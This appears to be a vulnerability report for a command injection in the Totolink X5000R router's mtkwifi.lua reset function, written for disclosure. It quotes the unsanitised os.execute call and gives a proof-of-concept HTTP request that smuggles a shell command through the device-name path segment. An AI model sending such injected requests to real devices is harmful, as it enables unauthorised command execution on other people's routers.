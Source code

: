# Command injection vulnerability in exec_reset_to_defaults_cmd function
### description
Vendor: Totolink 

Version: X5000R (latest version)  

Detail: There is a command injection vulnerability in exec_reset_to_defaults_cmd function in mtkwifi.lua


```
local exec_reset_to_defaults_cmd = function (devname)
    if devname then
        os.execute("wifi reset "..devname)   ------------------------> here
    else
        os.execute("wifi reset")
    end
end

function reset_to_defaults(devname)
    mtkwifi.__run_in_child_env(exec_reset_to_defaults_cmd, devname)
    luci.http.redirect(luci.dispatcher.build_url("admin", "mtk", "wifi", "loading",mtkwifi.get_referer_url()))
end


```
the call chain is reset_to_defaults-->exec_reset_to_defaults_cmd

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/85f26689-06a9-46bc-8a04-452a1d71308e)

![图片](https://github.com/user-attachments/assets/4fb4591b-e75a-4d73-b3ff-5bf942111293)


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/reset_to_defaults/;ifconfig > ${HOME}/d.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0



```
Here we set the arguments "devname" with ";ifconfig > ${HOME}/d.txt;", and there will be a file named "d.txt" in ${HOME}


